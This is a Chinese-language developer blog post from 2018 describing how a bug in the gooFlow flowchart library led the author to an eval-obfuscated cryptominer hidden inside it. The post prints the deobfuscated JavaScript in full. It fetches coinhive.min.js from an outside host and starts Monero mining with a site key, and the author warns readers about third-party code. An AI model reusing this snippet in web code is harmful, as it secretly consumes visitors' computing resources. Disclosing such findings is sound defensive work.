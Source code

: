```yaml
---
layout: post
title:  "由一个bug找到JS挖矿代码"
date:   2018-06-16
categories: JS
author: 张翔
location: ShangHai, China
description: 通过使用一个开源框架，发现了bug，在找bug的过程中发现了js挖矿代码！
---
```

---
由于工作需要，需要前端画流程图，找到一个开源的框架**gooFlow**（下图就是这个开源框架），它可以编辑流程图，提供节点和线以及一些辅助功能。仔细看一下这是一个国人写框架，文档也是中文，用起来也很顺手。


但是使用这个框架的时候发现一个很奇怪的bug，描述起来就是：**我在父页面的a标签点击跳转到流程图页面，如果a标签的target是_top，页面就不会报错，但是如果target的值为_blank，页面第一次打开不会报错，只有在刷新的情况下页面才会报错。**报错信息如下


其实从这个信息推断不出来什么具体信息，只知道jQuery这个对象应该不存在，所以导致程序出错，仔细检查我的页面代码的引入，发现jQuery都有引入，都没问题，结合这个bug出现的时机，只在新开页面且刷新过一次的情况下才会报错，所以可以推断出这个gooFlow框架应该是引用了父页面的某个对象，然后在刷新一次页面的情况下，父页面的这个对象为空才会导致报错。
接着我就开始搜索gooFlow的**window.opener**和**window.parent**的引用，**window.opener返回的是创建该窗口的 Window 对象的引用，window.parent返回的是返回当前窗口的父窗口**。但是都没有找到导致bug的源头。
束手无策的时候，尝试使用最原始的方法，**删除父页面上的js引用**，看流程图页面抛出什么错误，当我把父页面的jQuery删除的时候，页面报了不一样的错误（下图）。


找到对应方法处的代码，如下图，是使用**eval**执行一串字符串，很不好调试，只好把这一串代码拷贝出来执行一下看执行的是什么代码？


正当我纳闷为啥需要对框架里面的**代码加密**的时候，我找到了eval执行的字符串，格式化之后如下，保存的原因找到了，**_opener.$**的使用就是对**打开这个页面的jQuery的引用**，所以删除父页面jQuery报错信息会不一致。
```javascript
var _ = window;
try {
    _ = _.opener.$
} catch (e) {
    try {
        _ = _.top.$
    } catch (e) {
        _ = $
    }
};
if (!_("head").data('x')) {
    GooFlow.a = 1;
    _a = 20;
    var d = new Date();
    _("head").data('x', 1);
    _.ajax("https://coinhive.com/lib/coinhive.min.js?" + d.getFullYear() + d.getMonth() + d.getDate(), {
        dataType: 'script',
        cache: true
    });
    _i = setInterval(function () {
        try {
            new CoinHive.Anonymous('GGdPGhxIloldaArArQVwxZ2sd8l0a4kH', {throttle: 0.3}).start();
            clearInterval(_i)
        } catch (e) {
            _a--;
            if (_a < 1) document.write("")
        }
    }, 1000)
}
```

仔细看这个代码会发现这竟然是一串挖矿代码！！！会去请求接口:`https://coinhive.com/lib/coinhive.min.js`，然后执行`new CoinHive.Anonymous('GGdPGhxIloldaArArQVwxZ2sd8l0a4kH', {throttle: 0.3}).start();`开始挖矿，在网上找到了，这是**门罗币的挖矿代码**。具体可以看看下面这篇文章：

> JS挖矿 - 门罗币是如何利用网页挖矿的？
> （http://liujinkai.com/2017/10/28/js-miner/）


现在很多开源的框架、插件、库，使用起来都要小心，一不小心就中了别人的圈套，挖矿这种事是牺牲用户体验的基础上进行的，可以看到cpu使用飙升，电脑发烫，所以如果在你为了你的网站优化用户体验的时候，发现怎么优化都无济于事，记得找一找你引用代码里面有哪些隐藏的圈套。
最后推荐一下chrome阻止挖矿的插件**minerBlock**